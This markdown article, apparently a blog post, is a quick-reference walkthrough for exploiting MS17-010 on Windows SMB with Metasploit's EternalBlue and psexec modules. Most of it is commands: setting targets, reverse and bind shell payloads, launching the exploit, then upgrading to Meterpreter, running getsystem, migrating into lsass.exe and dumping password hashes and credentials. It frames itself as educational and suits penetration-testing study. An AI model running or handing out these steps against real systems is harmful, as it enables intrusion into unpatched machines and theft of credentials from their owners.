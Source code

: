```yaml
---
title: 'Remote Exploit MS17-010'
date: '2021-03-27'
description: 'This article serves as a quick reference to exploiting the MS17-010 with the Metasploit Framework. This article is for educational purposes only.'
coverimage: Remote_Exploit_MS17010.jpg
tags: kali-linux, metasploit, ms17-010, windows
published: true
posttype: article
---
```

This article demonstrates how to exploit the MS17-010 vulnerability with the `Metasploit Framework`. This article is for educational purposes only.

Two methods are demonstrated; `with` and `without compromised credentials`. This article does not discuss the vulnerability and its background.

# Method 1 - MS17-010 exploitation without credentials: EternalBlue

<h5 class="step">Step 1 - Launch Metasploit and choose the `ms17_010_eternalblue` exploit</h5>

```
msfconole
[...]
use exploit/windows/smb/ms17_010_eternalblue
```

<h5 class="step">Step 2 - Configure options for your target</h5>

Configure your exploit to run with options that are specific to your target. Note that setting the remote port is optional, this is 445 by default

```
show targets
set TARGET <id>
set RHOST <target IP>
set RPORT <target port> (445 by default)
```

<h5 class="step">Step 3 - Configure options for your machine</h5>

Configure options for your machine with. 

```
set LHOST <your IP>
set LPORT <port of your choice>
```

<h5 class="step">Step 4 - Optional: Configure a payload</h5>

This step is optional. By default, `windows/x64/meterpreter/reverse_tcp` is used.

```
show PAYLOADS
```

Choose and set a payload with:

```
set PAYLOAD <payload>
```

<h5 class="step">Step 5 - Exploit</h5>

To run the exploit use:

```
exploit
```

A reverse connection is initiated upon successful exploitation.

For `post-exploitation tips`, see step 6 of the below instructions.

# MS17-010 Exploitation - With credentials: PSExec

This example requires credentials to run. This example is done using a domain-joined target.

<h5 class="step">Step 1 - Launch Metasploit and choose the `ms17_010_psexec` exploit</h5>

```
msfconole
[...]
use exploit/windows/smb/ms17_010_psexec
```

<h5 class="step">Step 2 - Configure options for your target</h5>

Configure your exploit to run with options that are specific to your target. Note that setting the remote port is optional, this is 445 by default

```
show TARGETS
set TARGET <id>
set RHOST <target IP>
set RPORT <target port> (445 by default)
set SMBUSER <user>
set SMBPASS <password>
set SMBDOMAIN <domain>
```

<h5 class="step">Step 3 - Configure options for your machine</h5>

```
set LHOST <your IP>
set LPORT <port of your choice>
```

<h5 class="step">Step 4 - Optional: Configure a payload</h5>

This step is optional. By default, `windows/x64/meterpreter/reverse_tcp` is used.

```
show PAYLOADS
```

Choose and set a payload with:

```
set PAYLOAD <payload>
```

For example, to use a smaller `bind` payload (`stageless`), you can choose:

```
set PAYLOAD generic/shell_bind_tcp
```

<h5 class="step">Step 5 - Exploit</h5>

To run the exploit use:

```
exploit
```

<h5 class="step">Step 6 - Optional: Post-Exploitation</h5>

If you used a non-meterpreter payload, you can upgrade it to Meterpreter using:

```
CTRL + Z (background session)
use post/multi/manage/shell_to_meterpreter
sessions -l
set session <session id>
set LHOST <your IP>
set LPORT <port of your choice>
exploit
```

<b>Note:</b> You may need to run this a few times to upgrade the shell.

Once you have upgraded your shell, you can escalate your privileges.

```
session -i <meterpreter session>
getsystem
```

To migrate process and dump credentials, use:

```
ps
migrate -N lsass.exe
hashdump
load kiwi
creds_all
```